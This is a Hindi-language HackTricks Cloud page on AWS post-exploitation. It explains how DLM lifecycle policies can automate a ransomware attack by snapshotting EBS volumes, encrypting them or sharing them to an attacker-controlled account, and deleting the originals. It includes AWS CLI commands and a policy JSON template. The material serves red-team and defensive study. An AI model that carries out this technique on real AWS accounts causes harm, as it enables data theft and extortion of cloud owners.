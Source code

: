 # AWS - DLM पोस्ट एक्सप्लोइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## डेटा लाइफसाइकिल प्रबंधक (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

एक रैनसमवेयर हमला तब किया जा सकता है जब जितने संभव हो सके EBS वॉल्यूम को एन्क्रिप्ट किया जाए और फिर वर्तमान EC2 इंस्टेंस, EBS वॉल्यूम और स्नैपशॉट को मिटा दिया जाए। इस दुर्भावनापूर्ण गतिविधि को स्वचालित करने के लिए, कोई Amazon DLM का उपयोग कर सकता है, स्नैपशॉट को एक अन्य AWS खाते से KMS कुंजी के साथ एन्क्रिप्ट करके और एन्क्रिप्टेड स्नैपशॉट को एक अलग खाते में स्थानांतरित करके। वैकल्पिक रूप से, वे बिना एन्क्रिप्शन के स्नैपशॉट को एक ऐसे खाते में स्थानांतरित कर सकते हैं जिसे वे प्रबंधित करते हैं और फिर वहां उन्हें एन्क्रिप्ट कर सकते हैं। हालांकि मौजूदा EBS वॉल्यूम या स्नैपशॉट को सीधे एन्क्रिप्ट करना सीधा नहीं है, लेकिन एक नया वॉल्यूम या स्नैपशॉट बनाकर ऐसा करना संभव है।

सबसे पहले, कोई वॉल्यूम के बारे में जानकारी इकट्ठा करने के लिए एक कमांड का उपयोग करेगा, जैसे कि इंस्टेंस ID, वॉल्यूम ID, एन्क्रिप्शन स्थिति, अटैचमेंट स्थिति, और वॉल्यूम प्रकार।

`aws ec2 describe-volumes`

दूसरे, कोई लाइफसाइकिल नीति बनाएगा। यह कमांड DLM API का उपयोग करके एक लाइफसाइकिल नीति स्थापित करता है जो निर्दिष्ट वॉल्यूम के दैनिक स्नैपशॉट को एक निर्धारित समय पर स्वचालित रूप से लेता है। यह स्नैपशॉट पर विशिष्ट टैग भी लागू करता है और वॉल्यूम से स्नैपशॉट पर टैग की प्रतिलिपि बनाता है। policyDetails.json फ़ाइल में लाइफसाइकिल नीति के विवरण शामिल होते हैं, जैसे कि लक्षित टैग, कार्यक्रम, एन्क्रिप्शन के लिए वैकल्पिक KMS कुंजी का ARN, और स्नैपशॉट साझा करने के लिए लक्षित खाता, जिसे पीड़ित के CloudTrail लॉग में रिकॉर्ड किया जाएगा।
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
नीति दस्तावेज़ के लिए एक टेम्पलेट यहाँ देखा जा सकता है:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
